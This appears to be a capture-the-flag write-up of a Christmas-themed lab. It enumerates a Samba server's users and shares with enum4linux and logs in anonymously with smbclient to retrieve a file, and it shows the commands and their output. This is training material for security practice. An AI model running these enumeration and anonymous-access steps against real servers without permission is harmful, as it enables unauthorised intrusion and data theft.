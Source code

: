 
The Best Festival Company (TBFC) has since upscaled its IT infrastructure after last year's attack for all the other elves to use, including a VPN server and a few other services. You breathe a sigh of relief..."That's it, Me, Elf McEager saved the Christmas of 2020! I can't wait to---"
But suddenly, a cold shiver runs down your spine, interrupting your monologue...

You suddenly recall that Elf McSkidy had set up a Samba file server just before the attack occurred - could this have been hacked too?!  What about our data...Oh no, quick! Find out what usernames may have been leaked and attempt to login to the server yourself, noting down any vulnerabilities found to report back to Elf McSkidy.
- Using enum4linux, how many users are there on the Samba server ?
```
3
```
```
./enum4linux.pl 10.10.204.164 -U
user:[elfmcskidy] rid:[0x3e8]                                                           
user:[elfmceager] rid:[0x3ea]                                                           
user:[elfmcelferson] rid:[0x3e9]                                                        
```

- Now how many "shares" are there on the Samba server?
```
4
```
```
./enum4linux.pl 10.10.204.164 -S
 ==========================================                                             
|    Share Enumeration on 10.10.204.164    |                                            
 ==========================================                                             
WARNING: The "syslog" option is deprecated                                              
                                                                                        
        Sharename       Type      Comment                                               
        ---------       ----      -------                                               
        tbfc-hr         Disk      tbfc-hr                                               
        tbfc-it         Disk      tbfc-it                                               
        tbfc-santa      Disk      tbfc-santa                                            
        IPC$            IPC       IPC Service (tbfc-smb server (Samba, Ubuntu))   
```

- Use smbclient to try to login to the shares on the Samba server . What share doesn't require a password?
```
tbfc-santa
```
```
smbclient --no-pass -L //10.10.204.164/tbfc-santa/
```
- Log in to this share, what directory did ElfMcSkidy leave for Santa?
```
jingle-tunes 
```
```
smbclient -U '%' -N \\\\10.10.204.164\\tbfc-santa
WARNING: The "syslog" option is deprecated
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Nov 12 02:12:07 2020
  ..                                  D        0  Thu Nov 12 01:32:21 2020
  jingle-tunes                        D        0  Thu Nov 12 02:10:41 2020
  note_from_mcskidy.txt               N      143  Thu Nov 12 02:12:07 2020

                10252564 blocks of size 1024. 5199708 blocks available
smb: \> get note_from_mcskidy.txt 
getting file \note_from_mcskidy.txt of size 143 as note_from_mcskidy.txt (69.8 KiloBytes/sec) (average 69.8 KiloBytes/sec) 

cat note_from_mcskidy.txt 
